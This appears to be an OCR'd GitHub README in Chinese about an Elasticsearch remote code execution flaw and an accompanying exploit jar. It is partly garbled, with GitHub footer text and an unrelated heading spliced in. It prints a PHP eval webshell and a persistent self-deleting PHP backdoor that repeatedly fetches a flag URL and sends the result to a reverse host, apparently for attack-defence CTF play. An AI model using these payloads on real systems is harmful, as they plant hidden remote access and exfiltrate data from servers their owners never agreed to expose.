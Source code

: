 # elasticsearch命令执行漏洞
更新地址：Elasticsearch_1.2.jar 命令参数忘记编码了，导致不能执行多参数已修复了。修改了超时为10秒、异常情况直接输出页面源码。

1
2
1、ElasticSearch是一个基于Lucene构建的开源，分布式，RESTful搜索引擎。设计用于云计算中，能够达到实时搜索，稳定，可靠，快速，安装使用方便。 
2、Lucene是apache软件基金会4 jakarta项目组的一个子项目，是一个开放源代码的全文检索引擎工具包
这个漏洞如果被利用可直接在服务器端执行任意的java代码，ElasticSearch基本都部署在大型集群环境中危害非常的大。

elasticsearch 文件上传的时候必须注意 斜杠 \ 的使用

>"<?php eval(\\\\$_POST[1]);?>hello"

内存马
>file2 = "<?php unlink(\\\\$_SERVER[\'SCRIPT_FILENAME\']);ignore_user_abort(true);set_time_limit(0);while (true) {\\\\$x = file_get_contents(\'" + flag_ip + "\');file_get_contents(\'" + reverse_ip + "/recive.php?a=\'.\\\\$x);sleep(60);}?>"
Contact GitHub API Training Shop Blog About
© 2016 GitHub, Inc. Terms Privacy Security Status Help
# elasticsearch travel漏洞
